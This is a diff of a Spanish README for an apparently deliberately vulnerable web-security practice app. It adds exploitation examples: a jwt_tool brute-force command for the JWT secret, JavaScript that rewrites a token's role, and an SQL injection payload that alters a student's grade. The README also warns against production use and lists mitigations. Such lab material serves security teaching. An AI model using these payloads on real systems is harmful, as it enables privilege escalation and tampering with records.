

Before and after one commit to fpesce27/seguridad-web, a Markdown page: README.md, the part around one of its changes. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -109,6 +97,28 @@ python app.py
 - report (TEXT)
 - timestamp (DATETIME)
 
+## Ejemplos de Explotación
+
+### 1. Obtención de Secret Key JWT
+```bash
+# Usar herramientas como jwt_tool o hashcat para fuerza bruta
+jwt_tool <token> -C -d wordlist.txt
+```
+
+### 2. Modificación de Rol en JWT
+```javascript
+// Decodificar token
+const token = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9...";
+const decoded = JSON.parse(atob(token.split('.')[1]));
+// Modificar rol
+decoded.role = "auditor";
+```
+
+### 3. SQL Injection en Auditoría
+```sql
+'); UPDATE grades SET grade = 10 WHERE student = 'Juan'; --
+```
+
 ## Notas de Seguridad
 
 ⚠️ **ADVERTENCIA**: Este sistema es intencionalmente vulnerable y NO debe ser utilizado en un entorno de producción. Está diseñado únicamente para fines educativos y de práctica de seguridad.
@@ -118,7 +128,7 @@ python app.py
 1. Uso de consultas parametrizadas
 2. Almacenamiento seguro de contraseñas (bcrypt, Argon2)
 3. Tokens JWT seguros con expiración
-4. Logging seguro
+4. Logging seguro sin información sensible
 5. Validación de entrada
 6. Protección contra CSRF
 7. Headers de seguridad
````
Also changed, not shown: other parts of README.md (+49 -61 lines).
